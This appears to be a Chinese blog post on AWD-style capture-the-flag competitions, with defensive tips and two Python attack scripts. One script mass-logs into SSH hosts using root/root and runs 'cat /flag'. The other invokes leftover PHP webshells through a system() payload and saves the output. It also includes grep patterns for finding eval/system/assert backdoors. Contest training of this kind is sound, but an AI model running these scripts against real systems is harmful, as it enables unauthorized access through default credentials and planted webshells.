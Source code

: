# 原创
：  CTF—AWD防御起手式

# CTF—AWD防御起手式

### 前言

AWD (Attack With Defence)，比赛中每个队伍维护多台服务器，服务器中存在多个漏洞，利用漏洞攻击其他队伍可以进行得分，修复漏洞可以避免被其他队伍攻击失分。

### 改SSH密码

官方在给出服务器密码时，很有可能是默认的，需要赶快修改自己的密码并尝试能不能登录别人的靶机<br/> 存在某些队伍忘记修改SSH弱口令，尝试使用python脚本连接获取flag

```
import paramiko #paramiko是一个用于做远程控制的模块
import threading #threading模块是Python里面常用的线程模块
def ssh2(ip,username,passwd,cmd):
  try:
    ssh=paramiko.SSHClient() #创建一个ssh对象
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy()) #自动选择yes
    ssh.connect(ip,22,username,passwd,timeout=0.1) #连接服务器
    for m in cmd:
      stdin,stdout,stderr=ssh.exec_command(m) #执行操作
      out=stdout.readlines() #获取命令执行的结果
      for o in out:
        print(o)
    print('%s\tOK\n'%(ip))
    ssh.close()
  except:
    print('%s\tError\n'%(ip))
if __name__=='__main__':
  cmd=['cat /flag']
  username='root'
  passwd='root'
  threads=[10]
  for i in range(149,151):
    ip='192.168.75.'+str(i)
    a=threading.Thread(target=ssh2,args=(ip,username,passwd,cmd))
    a.start()

```

### 命令行简单查找后门
1.  find / -name ‘*.php’ | xargs grep -n ‘eval’ 1.  find / -name ‘*.php’ | xargs grep -n ‘system’ 1.  find / -name ‘*.php’ | xargs grep -n ‘assert’ 
<br/> 描述：存在某些队伍靶机检测没有做到位，导致遗留后门，利用python脚本检测并加以利用

```
import requests
part_url='/shell.php?pass=system(%27cat /flag%27);'
for s in range(149,151):
    try:
      ip1='192.168.75.'+str(s)
      ip='http://'+ip1+part_url
      print(ip)
      res=requests.get(url=ip,timeout=0.1)
      if res.status_code!=404:
        print(ip1)
        with open('flag.txt','a') as f:
          f.write(ip1+'   '+res.text)
    except Exception as e:
      pass
```